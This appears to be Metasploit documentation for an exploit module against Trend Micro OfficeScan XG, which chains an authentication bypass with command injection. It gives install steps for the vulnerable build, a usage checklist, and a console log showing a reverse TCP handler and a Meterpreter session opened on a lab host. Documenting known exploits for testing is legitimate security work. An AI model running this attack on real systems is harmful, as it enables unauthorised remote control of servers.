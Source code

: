 ## Vulnerable Application

This module exploits the authentication bypass and command injection vulnerability together. Unauthenticated users can execute a terminal command under the context of the web server user.

Trend Micro Officescan product have widget feature which is implemented with PHP. Talker.php takes ack and hash parameter but don't validate these values, which leads to an authentication bypass for widget. Proxy.php files under the mod TMCSS folder takes multiple parameter but the process does not properly validate a user-supplied string before using it to execute a system call. Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "OfficeScan" and click.
3. At the time of writing this documentation, you must see "osce-xg-win-en-gm-b1315.exe" next to Download button.
4. Click to the download button and complete installation of ISO.
5. Install the downloaded file on Windows operating system. (Tested with Windows 7)

If you don't see an affected version of OfficeScan, you can try to download it directly from following URL.

[ftp://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe](ftp://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/trendmicro_officescan_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target appears to be vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `PHPSESSIONID` value.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf > use exploit/windows/http/trendmicro_officescan_exec
msf exploit(trendmicro_officescan_exec) > set RHOST 12.0.0.184
RHOST => 12.0.0.184
msf exploit(trendmicro_officescan_exec) > check
[*] 12.0.0.184:443 The target appears to be vulnerable.
msf exploit(trendmicro_officescan_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Exploiting authentication bypass
[+] Awesome. PHPSESSID=qkbkkkb281fn4019e02g80i156;
[*] Generating payload
[*] Trigerring command injection vulnerability
[*] Sending stage (179267 bytes) to 12.0.0.184
[*] Meterpreter session 3 opened (12.0.0.1:4444 -> 12.0.0.184:50582) at 2017-10-08 10:13:27 +0300

meterpreter > sysinfo
Computer        : CME
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : tr_TR
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```